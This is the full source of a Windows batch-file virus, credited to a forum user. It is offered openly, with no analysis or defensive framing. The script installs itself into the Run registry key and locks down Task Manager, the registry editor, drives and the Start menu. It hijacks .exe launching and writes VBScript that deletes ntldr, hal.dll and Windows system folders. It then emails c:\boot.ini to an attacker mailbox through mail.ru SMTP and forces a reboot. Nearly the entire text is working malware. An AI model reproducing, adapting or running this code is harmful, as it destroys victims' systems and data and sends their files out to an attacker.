 # pinokio
[SRC] Echo_inactive_inactive This virus created by NickName Echo_inactive_inactive Virus: forum.ru Virus Echo_inactive_inactive Autor: NickName Echo_inactive_inactive off echo Chr(39)>%temp%\temp1.vbs echo Chr(39)>%temp%\temp2.vbs echo on error resume next > %temp%\temp.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0 copy %¶§% %SystemRoot%\user32dll.bat reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru">>%temp%\temp.vbs echo on error resume next > %temp%\temp1.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs echo do>>%temp%\temp1.vbs echo fso.getfile ("A:\")>>%temp%\temp1.vbs echo loop>>%temp%\temp1.vbs echo on error resume next > %temp%\temp2.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs echo do>>%temp%\temp2.vbs echo execute"S.Run ""%comspec% /c echo "" &amp; Chr(7), 0, True">>%temp%\temp2.vbs echo loop>>%temp%\temp2.vbs reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f echo set application=createobject("shell.application")>>%temp%\temp.vbs echo application.minimizeall>>%temp%\temp.vbs reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f start rundll32 user32, SwapMouseButton reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f echo i=50 >> %temp%\temp.vbs echo while i^>0 or i^&lt;0 >> %temp%\temp.vbs echo S.popup "forum.whack.ru",0, "forum.whack.ru",0+16 >> %temp%\temp.vbs echo i=i-1 >> %temp%\temp.vbs echo wend >> %temp%\temp.vbs echo do >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{capslock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{numlock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs echo loop>> %temp%\temp.vbs echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs echo colCDROMs.Item(i).eject >> %temp%\temp.vbs echo next >> %temp%\temp.vbs echo End If >> %temp%\temp.vbs echo Call SendPost("smtp.mail.ru", "forum.whack.ru@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs echo Set Flds = iConf.Fields >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs echo Flds.Update >> %temp%\temp.vbs echo iMsg.Configuration = iConf >> %temp%\temp.vbs echo iMsg.To = strTo >> %temp%\temp.vbs echo iMsg.From = strFrom >> %temp%\temp.vbs echo iMsg.Subject = strSubject >> %temp%\temp.vbs echo iMsg.TextBody = strBody >> %temp%\temp.vbs echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs echo iMsg.Send >> %temp%\temp.vbs echo End Function >> %temp%\temp.vbs echo Set iMsg = Nothing >> %temp%\temp.vbs echo Set iConf = Nothing >> %temp%\temp.vbs echo Set Flds = Nothing >> %temp%\temp.vbs  echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru"" -f",1 >> %temp%\temp.vbs start %temp%\temp.vbs start %temp%\temp1.vbs start %temp%\temp2.vbs [/SRC]
